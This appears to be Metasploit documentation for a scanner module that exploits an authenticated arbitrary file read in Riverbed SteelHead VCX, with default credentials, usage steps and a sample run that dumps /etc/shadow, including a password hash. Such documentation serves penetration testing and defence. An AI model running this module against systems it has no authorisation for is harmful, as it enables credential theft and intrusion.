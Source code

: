This module exploits an authenticated arbitrary file read in the log module's filter engine.

## Vulnerable Application

The application is available for a 90 day evaluation after free registration from
[riverbed](https://www.riverbed.com/gb/products/steelhead/Free-90-day-Evaluation-SteelHead-CX-Virtual-Edition.html).  
Downloads are available for Hyper-V, ESX(i), and KVM.  Installation is straight forward, initial login is `admin`/`password`.
If need be from cli, to show the IP address of the device: `show interfaces primary`

This module was successfully tested against:

- SteelHead VCX (VCX255U) 9.6.0a

## Verification Steps

1. Do: ```auxiliary/scanner/http/riverbed_steelhead_vcx_file_read```
2. Do: ```set RHOSTS [IP]```
3. Set TARGETURI if necessary.
3. Set FILE if necessary.
3. Set USERNAME if necessary.
3. Set PASSWORD if necessary.
4. Do: ```run```

## Scenarios

### SteelHead VCX255u 9.6.0a running on ESXi

```
resource (riverbed.rc)> use auxiliary/scanner/http/riverbed_steelhead_vcx_file_read
resource (riverbed.rc)> set rhosts 192.168.2.198
rhosts => 192.168.2.198
resource (riverbed.rc)> set verbose true
verbose => true
resource (riverbed.rc)> run
[*] CSRF Token: 18PK64EKpo4d6y0X5ZOMYJ3fxfYZKfrN
[+] Authenticated Successfully
[+] File Contents:
admin:$6$sKOU5moa$B2szxiSEzq6ZmHZw01CMf64WlzvqIgCYETeXzF1ItxZ5soOJNVXdE2H5N19t0cPeGDf/LGvRymgQHAxgojr6u1:10000:0:99999:7:::
administrator:*:10000:0:99999:7:::
apache:*:10000:0:99999:7:::
localvixuser:*:10000:0:99999:7:::
named:*:10000:0:99999:7:::
nobody:*:10000:0:99999:7:::
ntp:*:10000:0:99999:7:::
pcap:*:10000:0:99999:7:::
postgres:*:10000:0:99999:7:::
rcud:*:10000:0:99999:7:::
root:*:10000:0:99999:7:::
rpc:*:10000:0:99999:7:::
shark:*:10000:0:99999:7:::
sshd:*:10000:0:99999:7:::
statsd:*:10000:0:99999:7:::
webproxy::10000:0:99999:7:::
[+] Stored /etc/shadow to /root/.msf4/loot/20170602230238_default_192.168.2.198_host.file_311580.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
